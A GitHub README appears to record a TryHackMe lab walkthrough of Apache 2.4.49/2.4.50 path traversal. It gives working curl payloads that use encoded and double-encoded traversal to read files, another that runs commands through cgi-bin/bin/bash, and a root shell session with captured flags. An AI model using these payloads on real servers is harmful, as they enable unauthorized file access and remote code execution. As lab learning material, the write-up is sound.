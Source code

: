 <h1 align="center">CVE-2021-41772/42014</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/3e13c697-7497-48e1-ba05-b3fb80855c43"><br>
July 3, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure,<br>
part of my <code>423</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>A small explanation of an Apache path traversal bug and an incomplete fix</em>.<br>
Access it <a href="https://tryhackme.com/room/cve202141773"</a>here.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/094c2313-0800-476f-8c7e-df2d68919be0"></p>

<br>

![image](https://github.com/user-attachments/assets/85a38630-7b4d-4239-85e5-4f1850c0d7e2)

![image](https://github.com/user-attachments/assets/9fd50766-fb44-4cd3-beef-400de55543ab)

![image](https://github.com/user-attachments/assets/34a37380-86a9-4669-8738-85f848df40b9)

```bash
```

![image](https://github.com/user-attachments/assets/aa2b002a-2bcd-4926-96eb-c2d69f989a44)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 1... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
* Connection #0 to host 10.10.160.15 left intact
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/b6815ccb-f7ef-4a9d-9f48-295af3dd60c6)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
...
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/ab8d18f3-c960-477c-ad4c-68216453b860)

![image](https://github.com/user-attachments/assets/2d55a44b-a61a-4e23-b176-ffde1fd0445a)


```bash
:~/InfoRoom# curl -v 'http://1TargetIP:8081/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{2C3_F20M_C61}
```


```bash
:~/InfoRoom# curl -v 'http://TargetIP:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'
...
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "18-5ce102e26103d"
< Accept-Ranges: bytes
< Content-Length: 24
< Content-Type: text/plain
< 
...
THM{D0UBL3_3NC0D1N6_F7W}
```

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
*   Trying 10.10.160.15:8083...
* TCP_NODELAY set
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{F1L732_8YP455_2C3}
```

![image](https://github.com/user-attachments/assets/7c519922-90a4-44a2-916c-6e5ec4e68724)


```bash
daemon@18c7613b3859:/bin$ whoami
whoami
daemon
daemon@18c7613b3859:/bin$ su root
su root
Password: ApacheCVE
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/bin
cd /root
ls
root.txt
cat root.txt
THM{P21V_35C_F20M_4P4CH3_15_FUN}
```


<br>
<br>

![image](https://github.com/user-attachments/assets/6a81a593-6122-4acb-801d-162bb1f46795)

![image](https://github.com/user-attachments/assets/5a401eff-c01a-48a8-8927-2af2fafc5b65)

